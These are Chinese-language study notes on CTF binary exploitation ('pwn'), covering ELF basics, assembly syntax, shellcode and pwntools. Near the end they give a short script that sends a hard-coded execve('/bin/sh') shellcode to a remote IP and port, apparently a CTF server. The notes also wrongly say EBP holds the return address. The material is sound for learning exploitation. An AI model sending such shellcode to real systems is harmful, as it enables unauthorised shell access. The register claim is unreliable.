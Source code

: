 # pwn 

## 基础知识

### 可执行文件的创建过程

```flow
st=>start: c代码
o1=>operation: 预处理
o2=>operation: 编译
o3=>operation: 汇编
o3=>operation: 连接
y=>operation: 预处理文件
h=>operation: asm代码(汇编代码)
o=>operation: 二进制文件
e=>end: 可执行文件

st(right)->o1->y(right)->o2->h(right)->o3->o(right)->e

```

### 内存模型stack 和 heap和帧

### ELF文件头

- TYPE 确定文件类型(可重定位文件(.o),可执行文件(.exe/...),共享目标文件(.so))
- CLASS:确定文件是32位还是64位

#### 查看方法

```shell
readelf -h target # 查看ELF的头信息
readelf -l target # 查看elf头详细信息


```

### 不同寄存器的意义

ESP寄存器:栈顶指针

EBP寄存器:存放返回地址



### 简单的汇编命令

- push 
- call
- mov
- add
- pop
- ret

![](http://ww1.sinaimg.cn/large/006pWR9agy1g5muped2obj30j705z42r.jpg)





http://www.ruanyifeng.com/blog/2018/01/assembly-language-primer.html

[https://wooyun.js.org/drops/%E9%80%86%E5%90%91%E5%9F%BA%E7%A1%80%EF%BC%88%E4%B8%80%EF%BC%89.html](https://wooyun.js.org/drops/逆向基础（一）.html)

#### Intel与AT&T的重要区别

在Intel与AT&T语法当中比较重要的区别就是：

操作数写在后面

```
在Intel语法中：<instruction> <destination operand> <source operand>
在AT&T语法中：<instruction> <source operand> <destination operand>
```

有一个理解它们的方法: 当你面对intel语法的时候，你可以想象把等号放到2个操作数中间，当面对AT&T语法的时候，你可以放一个右箭头(→）到两个操作数之间。

AT&T: 在寄存器名之前需要写一个百分号(%)并且在数字前面需要美元符($)。方括号被圆括号替代。 AT&T: 一些用来表示数据形式的特殊的符号

```
l      long(32 bits)
w      word(16bits)
b      byte(8 bits)
```



## shellcode

shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制之机械码，以其经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode机械码，让电脑可以执行攻击者的任意指令。

### 网站

http://shell-storm.org/shellcode/

## pwntools 使用

### 连接

```python
from pwn import *
conn = remote('ftp.debian.org',21) #连接
conn.recvline() # 接收一行消息
conn.send('hello') #发送消息
conn.interactive()# 进入交互模式
conn.close()#关闭连接

```

### 和进程进程交互

```python
sh = process('/bin/sh')
sh.sendline('sleep 3; echo hello world;')
sh.recvline(timeout=1)
sh.close()
```

### ssh连接

```python
shell = ssh('username', 'bandit.labs.overthewire.org', password='passwd')
shell['whoami']
shell.download_file('/etc/motd')
sh = shell.run('sh')
sh.sendline('sleep 3; echo hello world;') 
sh.recvline(timeout=1)
shell.close()
```

### 设置目标系统架构及操作系统

`context(arch='arm', os='linux', endian='big', word_size=32)`

### 汇编和反汇编

```python
asm('mov eax, 0').encode('hex')
disasm('6a0258cd80ebf9'.decode('hex'))

```

### 在触发的崩溃中寻找偏移量或缓冲区大小

```python
print cyclic(20)
aaaabaaacaaadaaaeaaa
# Assume EIP = 0x62616166 ('faab' which is pack(0x62616166))  at crash time
 print cyclic_find('faab')
120
```

### Shellcode生成器

使用shellcraft可以生成对应的架构的shellcode代码，直接使用链式调用的方法就可以得到

```python
print shellcraft.i386.nop().strip('\n')   print shellcraft.i386.linux.sh()
```

### 简单实例

```python
#
from pwn import *
conn=remote('120.79.114.39',10001)
shellcode="\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
#from http://shell-storm.org/shellcode/files/shellcode-517.php
conn.send(shellcode)
conn.interactive()
```



## gdb 的使用

??????

## CTF中pwn题的搭建

http://www.jianshu.com/p/a659924515f7